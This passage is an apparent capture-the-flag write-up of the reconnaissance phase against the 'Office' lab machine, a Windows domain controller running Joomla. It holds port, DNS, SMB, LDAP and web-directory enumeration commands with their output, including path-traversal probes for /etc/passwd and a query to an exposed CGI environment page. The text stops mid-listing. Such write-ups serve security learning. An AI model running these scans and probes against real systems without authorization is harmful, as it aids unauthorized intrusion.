





## Initial Enumeration

As usual we are provided only one IPv4(**10.10.11.3**) and we know as well that the Servers OS should be Windows based.



Which so little i suggest to start by enumerating the IP for open services with [Rustscan](https://github.com/RustScan/RustScan):

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
| http-robots.txt: 16 disallowed entries 
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-02-19 17:50:43Z)
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Issuer: commonName=office-DC-CA/domainComponent=office
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-10T12:36:58
| Not valid after:  2024-05-09T12:36:58
| MD5:   b83f:ab78:db28:734d:de84:11e9:420f:8878
| SHA-1: 36c4:cedf:9185:3d4c:598c:739a:8bc7:a062:4458:cfe4
443/tcp   open  ssl/http      syn-ack ttl 127 Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Issuer: commonName=office-DC-CA/domainComponent=office
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-10T12:36:58
| Not valid after:  2024-05-09T12:36:58
| MD5:   b83f:ab78:db28:734d:de84:11e9:420f:8878
| SHA-1: 36c4:cedf:9185:3d4c:598c:739a:8bc7:a062:4458:cfe4
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Issuer: commonName=office-DC-CA/domainComponent=office
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-10T12:36:58
| Not valid after:  2024-05-09T12:36:58
| MD5:   b83f:ab78:db28:734d:de84:11e9:420f:8878
| SHA-1: 36c4:cedf:9185:3d4c:598c:739a:8bc7:a062:4458:cfe4
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Issuer: commonName=office-DC-CA/domainComponent=office
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-10T12:36:58
| Not valid after:  2024-05-09T12:36:58
| MD5:   b83f:ab78:db28:734d:de84:11e9:420f:8878
| SHA-1: 36c4:cedf:9185:3d4c:598c:739a:8bc7:a062:4458:cfe4
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
51390/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64433/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (89%)
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2022 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=2/19%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=65D324D1%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=A)
OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M53CNW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)
```

From here we can see that this is a DC so we can expect some kind of PE vector via AD? But we can see that Joomla is used as CMS.

I will "office.htb" as VHOST to my local hosts file and will perform a UDP scan via [NMAP](https://nmap.org/) :

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# nmap -sU -F office.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-19 10:57 CET
Nmap scan report for office.htb (10.10.11.3)
Host is up (0.037s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 2.94 seconds
```

Not much hehe, I will move forward with singular enumerations of these services.

* * *

## DNS

I am not sure how much will be able to extrat from DNS service but it's a good idea to check anyway. I will start by checking if DNS server can unveil any record?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# dig any office.htb @10.10.11.3

; <<>> DiG 9.19.19-1-Debian <<>> any office.htb @10.10.11.3
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 48172
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 4, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;office.htb.                    IN      ANY

;; ANSWER SECTION:
office.htb.             600     IN      A       10.250.0.30
office.htb.             600     IN      A       10.10.11.3
office.htb.             3600    IN      NS      dc.office.htb.
office.htb.             3600    IN      SOA     dc.office.htb. hostmaster.office.htb. 64 900 600 86400 3600

;; ADDITIONAL SECTION:
dc.office.htb.          3600    IN      A       10.10.11.3

;; Query time: 29 msec
;; SERVER: 10.10.11.3#53(10.10.11.3) (TCP)
;; WHEN: Mon Feb 19 11:01:45 CET 2024
;; MSG SIZE  rcvd: 151
```

Nothing new, but what about a Zone Transfer? EDIT: fails!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# dig axfr office.htb @10.10.11.3

; <<>> DiG 9.19.19-1-Debian <<>> axfr office.htb @10.10.11.3
;; global options: +cmd
; Transfer failed.
```

We could try to perform a DNS bruteforcing?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# dnsenum --dnsserver 10.10.11.3 --enum -p 0 -s 0 -o subdomains.txt -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt office.htb
dnsenum VERSION:1.2.6

-----   office.htb   -----                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             
Host's addresses:                                                                                                                                                                                                                                            
__________________                                                                                                                                                                                                                                           
                                                                                                                                                                                                                                                             
office.htb.                              600      IN    A        10.250.0.30                                                                                                                                                                                 
office.htb.                              600      IN    A        10.10.11.3

                                                                                                                                                                                                                                                             
Name Servers:                                                                                                                                                                                                                                                
______________                                                                                                                                                                                                                                               
                                                                                                                                                                                                                                                             
dc.office.htb.                           3600     IN    A        10.10.11.3                                                                                                                                                                                  

                                                                                                                                                                                                                                                             
Mail (MX) Servers:                                                                                                                                                                                                                                           
___________________                                                                                                                                                                                                                                          
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             
Trying Zone Transfers and getting Bind Versions:                                                                                                                                                                                                             
_________________________________________________                                                                                                                                                                                                            
                                                                                                                                                                                                                                                             
unresolvable name: dc.office.htb at /usr/bin/dnsenum line 897 thread 1.                                                                                                                                                                                      

Trying Zone Transfer for office.htb on dc.office.htb ... 
AXFR record query failed: no nameservers

                                                                                                                                                                                                                                                             
Brute forcing with /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:                                                                                                                                                                        
______________________________________________________________________________________                                                                                                                                                                       
                                                                                                                                                                                                                                                             
dc.office.htb.                           3600     IN    A        10.10.11.3                                                                                                                                                                                  
gc._msdcs.office.htb.                    600      IN    A        10.250.0.30
gc._msdcs.office.htb.                    600      IN    A        10.10.11.3
domaindnszones.office.htb.               600      IN    A        10.250.0.30
domaindnszones.office.htb.               600      IN    A        10.10.11.3
forestdnszones.office.htb.               600      IN    A        10.250.0.30
forestdnszones.office.htb.               600      IN    A        10.10.11.3

                                                                                                                                                                                                                                                             
Launching Whois Queries:                                                                                                                                                                                                                                     
_________________________                                                                                                                                                                                                                                    
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             
office.htb__________                                                                                                                                                                                                                                         
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             
Performing reverse lookup on 0 ip addresses:                                                                                                                                                                                                                 
_____________________________________________                                                                                                                                                                                                                
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             
0 results out of 0 IP addresses.

                                                                                                                                                                                                                                                             
office.htb ip blocks:                                                                                                                                                                                                                                        
______________________
```

Ok nothing much, I will move forward with other services!

* * *

## SMB

Another service that is worth to try to test is the SMB aka samba and we can use the tool [Enum4Linux-NG](https://github.com/cddmp/enum4linux-ng)  which can help us to enumerate shares, users and much more.

```
|    SMB Dialect Check on office.htb    |
 =======================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                                          
  SMB 1.0: false                                                                                                                                                                                                                                             
  SMB 2.02: true                                                                                                                                                                                                                                             
  SMB 2.1: true                                                                                                                                                                                                                                              
  SMB 3.0: true                                                                                                                                                                                                                                              
  SMB 3.1.1: true                                                                                                                                                                                                                                            
Preferred dialect: SMB 3.0                                                                                                                                                                                                                                   
SMB1 only: false                                                                                                                                                                                                                                             
SMB signing required: true                                                                                                                                                                                                                                   

 =========================================================
|    Domain Information via SMB session for office.htb    |
 =========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC                                                                                                                                                                                                                                    
NetBIOS domain name: OFFICE                                                                                                                                                                                                                                  
DNS domain: office.htb                                                                                                                                                                                                                                       
FQDN: DC.office.htb                                                                                                                                                                                                                                          
Derived membership: domain member                                                                                                                                                                                                                            
Derived domain: OFFICE                                                                                                                                                                                                                                       

 =======================================
|    RPC Session Check on office.htb    |
 =======================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 =============================================
|    OS Information via RPC for office.htb    |
 =============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                                     
OS version: '10.0'                                                                                                                                                                                                                                           
OS release: ''                                                                                                                                                                                                                                               
OS build: '20348'                                                                                                                                                                                                                                            
Native OS: not supported                                                                                                                                                                                                                                     
Native LAN manager: not supported                                                                                                                                                                                                                            
Platform id: null                                                                                                                                                                                                                                            
Server type: null                                                                                                                                                                                                                                            
Server type string: null                                                                                                                                                                                                                                     

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials
```

Seems like there aren't any shares accessible via NULL sessions and Windows OS identified the build 20348. Seems like we can move forward anyway...

* * *

## KERBEROS/LDAP

We could try to enumerate the LDAP if we can fuzz the service as anonymous user?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# ldapsearch -H ldap://office.htb:389/ -x -s base -b '' "(objectClass=*)" "*" +
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject
# filter: (objectClass=*)
# requesting: * + 
#

#
dn:
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=office,DC=htb
ldapServiceName: office.htb:dc$@OFFICE.HTB
isGlobalCatalogReady: TRUE
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
supportedLDAPVersion: 3
supportedLDAPVersion: 2
supportedLDAPPolicies: MaxPoolThreads
supportedLDAPPolicies: MaxPercentDirSyncRequests
supportedLDAPPolicies: MaxDatagramRecv
supportedLDAPPolicies: MaxReceiveBuffer
supportedLDAPPolicies: InitRecvTimeout
supportedLDAPPolicies: MaxConnections
supportedLDAPPolicies: MaxConnIdleTime
supportedLDAPPolicies: MaxPageSize
supportedLDAPPolicies: MaxBatchReturnMessages
supportedLDAPPolicies: MaxQueryDuration
supportedLDAPPolicies: MaxDirSyncDuration
supportedLDAPPolicies: MaxTempTableSize
supportedLDAPPolicies: MaxResultSetSize
supportedLDAPPolicies: MinResultSets
supportedLDAPPolicies: MaxResultSetsPerConn
supportedLDAPPolicies: MaxNotificationPerConn
supportedLDAPPolicies: MaxValRange
supportedLDAPPolicies: MaxValRangeTransitive
supportedLDAPPolicies: ThreadMemoryLimit
supportedLDAPPolicies: SystemMemoryLimitPercent
supportedControl: 1.2.840.113556.1.4.319
supportedControl: 1.2.840.113556.1.4.801
supportedControl: 1.2.840.113556.1.4.473
supportedControl: 1.2.840.113556.1.4.528
supportedControl: 1.2.840.113556.1.4.417
supportedControl: 1.2.840.113556.1.4.619
supportedControl: 1.2.840.113556.1.4.841
supportedControl: 1.2.840.113556.1.4.529
supportedControl: 1.2.840.113556.1.4.805
supportedControl: 1.2.840.113556.1.4.521
supportedControl: 1.2.840.113556.1.4.970
supportedControl: 1.2.840.113556.1.4.1338
supportedControl: 1.2.840.113556.1.4.474
supportedControl: 1.2.840.113556.1.4.1339
supportedControl: 1.2.840.113556.1.4.1340
supportedControl: 1.2.840.113556.1.4.1413
supportedControl: 2.16.840.1.113730.3.4.9
supportedControl: 2.16.840.1.113730.3.4.10
supportedControl: 1.2.840.113556.1.4.1504
supportedControl: 1.2.840.113556.1.4.1852
supportedControl: 1.2.840.113556.1.4.802
supportedControl: 1.2.840.113556.1.4.1907
supportedControl: 1.2.840.113556.1.4.1948
supportedControl: 1.2.840.113556.1.4.1974
supportedControl: 1.2.840.113556.1.4.1341
supportedControl: 1.2.840.113556.1.4.2026
supportedControl: 1.2.840.113556.1.4.2064
supportedControl: 1.2.840.113556.1.4.2065
supportedControl: 1.2.840.113556.1.4.2066
supportedControl: 1.2.840.113556.1.4.2090
supportedControl: 1.2.840.113556.1.4.2205
supportedControl: 1.2.840.113556.1.4.2204
supportedControl: 1.2.840.113556.1.4.2206
supportedControl: 1.2.840.113556.1.4.2211
supportedControl: 1.2.840.113556.1.4.2239
supportedControl: 1.2.840.113556.1.4.2255
supportedControl: 1.2.840.113556.1.4.2256
supportedControl: 1.2.840.113556.1.4.2309
supportedControl: 1.2.840.113556.1.4.2330
supportedControl: 1.2.840.113556.1.4.2354
supportedCapabilities: 1.2.840.113556.1.4.800
supportedCapabilities: 1.2.840.113556.1.4.1670
supportedCapabilities: 1.2.840.113556.1.4.1791
supportedCapabilities: 1.2.840.113556.1.4.1935
supportedCapabilities: 1.2.840.113556.1.4.2080
supportedCapabilities: 1.2.840.113556.1.4.2237
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=office,DC=htb
serverName: CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configurat
 ion,DC=office,DC=htb
schemaNamingContext: CN=Schema,CN=Configuration,DC=office,DC=htb
namingContexts: DC=office,DC=htb
namingContexts: CN=Configuration,DC=office,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=office,DC=htb
namingContexts: DC=DomainDnsZones,DC=office,DC=htb
namingContexts: DC=ForestDnsZones,DC=office,DC=htb
isSynchronized: TRUE
highestCommittedUSN: 261541
dsServiceName: CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=office,DC=htb
dnsHostName: DC.office.htb
defaultNamingContext: DC=office,DC=htb
currentTime: 20240219181502.0Z
configurationNamingContext: CN=Configuration,DC=office,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

Again here nothing more than we already found out.. We could sure try to brute force the kerberos service and check for usernames but we need to know the username structrure and I don't think at this stage we can do much about it so far...

* * *

## HTTP/S

Trying to reach the HTTPS website we are stopped that side is unreachable:



We could try to check for possible hidden file and folders?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# dirsearch -u "https://10.10.11.3/"                                                                                                                                                                                                                       

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                       
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/Office/reports/https_10.10.11.3/__24-02-19_11-31-05.txt

Target: https://10.10.11.3/

[11:31:05] Starting:                                                                                                                                                                                                                                         
[11:31:10] 404 -  298B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[11:31:11] 404 -  298B  - /a%5c.aspx                                        
[11:31:20] 404 -  298B  - /cgi-bin/awstats/                                 
[11:31:20] 404 -  298B  - /cgi-bin/awstats.pl                               
[11:31:20] 404 -  298B  - /cgi-bin/index.html
[11:31:20] 404 -  298B  - /cgi-bin/a1stats/a1disp.cgi
[11:31:20] 404 -  298B  - /cgi-bin/htimage.exe?2,2
[11:31:20] 404 -  298B  - /cgi-bin/login.cgi
[11:31:20] 404 -  298B  - /cgi-bin/mt.cgi
[11:31:20] 404 -  298B  - /cgi-bin/htmlscript
[11:31:20] 404 -  298B  - /cgi-bin/imagemap.exe?2,2
[11:31:20] 404 -  298B  - /cgi-bin/mt/mt-xmlrpc.cgi
[11:31:20] 404 -  298B  - /cgi-bin/login.php
[11:31:20] 404 -  298B  - /cgi-bin/login
[11:31:20] 404 -  298B  - /cgi-bin/mt7/mt-xmlrpc.cgi
[11:31:20] 404 -  298B  - /cgi-bin/printenv
[11:31:20] 404 -  298B  - /cgi-bin/mt7/mt.cgi
[11:31:20] 404 -  298B  - /cgi-bin/php.ini
[11:31:20] 404 -  298B  - /cgi-bin/mt/mt.cgi                                
[11:31:20] 404 -  298B  - /cgi-bin/mt-xmlrpc.cgi
[11:31:20] 404 -  298B  - /cgi-bin/ViewLog.asp
[11:31:20] 404 -  298B  - /cgi-bin/test.cgi
[11:31:20] 404 -  298B  - /cgi-bin/test-cgi
[11:31:20] 200 -    2KB - /cgi-bin/printenv.pl                              
[11:31:29] 503 -  401B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/ 
[11:31:29] 503 -  401B  - /examples/websocket/index.xhtml
[11:31:29] 503 -  401B  - /examples/jsp/snp/snoop.jsp
[11:31:29] 503 -  401B  - /examples/                                        
[11:31:29] 503 -  401B  - /examples/servlets/servlet/CookieExample
[11:31:29] 503 -  401B  - /examples/servlet/SnoopServlet
[11:31:29] 503 -  401B  - /examples/jsp/index.html
[11:31:29] 503 -  401B  - /examples/servlets/servlet/RequestHeaderExample
[11:31:29] 503 -  401B  - /examples
[11:31:29] 503 -  401B  - /examples/servlets/index.html                     
[11:31:37] 301 -  336B  - /joomla  ->  https://10.10.11.3/joomla/           
[11:31:37] 301 -  350B  - /joomla/administrator  ->  https://10.10.11.3/joomla/administrator/
[11:31:38] 200 -   28KB - /joomla/                                          
[11:31:59] 403 -  420B  - /server-status/                                   
[11:31:59] 403 -  420B  - /server-info                                      
[11:31:59] 403 -  420B  - /server-status                                    
[11:32:12] 403 -  420B  - /webalizer/                                       
[11:32:12] 403 -  420B  - /webalizer
```

And so it's joomla, which is basically the same resources we can find in the HTTP variant!

We can also unveil some informations about the XAMPP/LAMPP server used in the backend via a CGI app:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# curl https://10.10.11.3/cgi-bin/printenv.pl -k
COMSPEC="C:\Windows\system32\cmd.exe"
CONTEXT_DOCUMENT_ROOT="C:/xampp/cgi-bin/"
CONTEXT_PREFIX="/cgi-bin/"
DOCUMENT_ROOT="C:/xampp/htdocs"
GATEWAY_INTERFACE="CGI/1.1"
HTTPS="on"
HTTP_ACCEPT="*/*"
HTTP_HOST="10.10.11.3"
HTTP_USER_AGENT="curl/8.5.0"
MIBDIRS="C:/xampp/php/extras/mibs"
MYSQL_HOME="\xampp\mysql\bin"
OPENSSL_CONF="C:/xampp/apache/bin/openssl.cnf"
PATH="C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\web_account\AppData\Local\Microsoft\WindowsApps"
PATHEXT=".COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC"
PHPRC="\xampp\php"
PHP_PEAR_SYSCONF_DIR="\xampp\php"
QUERY_STRING=""
REMOTE_ADDR="10.10.14.5"
REMOTE_PORT="58402"
REQUEST_METHOD="GET"
REQUEST_SCHEME="https"
REQUEST_URI="/cgi-bin/printenv.pl"
SCRIPT_FILENAME="C:/xampp/cgi-bin/printenv.pl"
SCRIPT_NAME="/cgi-bin/printenv.pl"
SERVER_ADDR="10.10.11.3"
SERVER_ADMIN="admin@example.com"
SERVER_NAME="10.10.11.3"
SERVER_PORT="443"
SERVER_PROTOCOL="HTTP/1.1"
SERVER_SIGNATURE="<address>Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28 Server at 10.10.11.3 Port 443</address>\n"
SERVER_SOFTWARE="Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28"
SYSTEMROOT="C:\Windows"
TMP="\xampp\tmp"
WINDIR="C:\Windows"
```

Now back on the HTTP website we are in front of a Joomla CMS that hosts a Tony Stark blog?


But if we try to run a web directories/files fuzzing we can see some felovers?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# dirsearch -u "http://office.htb/"

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/Office/reports/http_office.htb/__24-02-19_11-37-26.txt

Target: http://office.htb/

[11:37:26] Starting: 
[11:37:27] 403 -  300B  - /%3f/                                             
[11:37:27] 403 -  300B  - /%C0%AE%C0%AE%C0%AF                               
[11:37:28] 403 -  300B  - /%ff                                              
[11:37:30] 403 -  300B  - /.ht_wsr.txt                                      
[11:37:30] 403 -  300B  - /.htaccess.sample                                 
[11:37:30] 403 -  300B  - /.htaccess.orig                                   
[11:37:30] 403 -  300B  - /.htaccess.save                                   
[11:37:30] 403 -  300B  - /.htaccess_extra
[11:37:30] 403 -  300B  - /.htaccess.bak1                                   
[11:37:30] 403 -  300B  - /.htaccess_orig
[11:37:30] 403 -  300B  - /.htaccessBAK
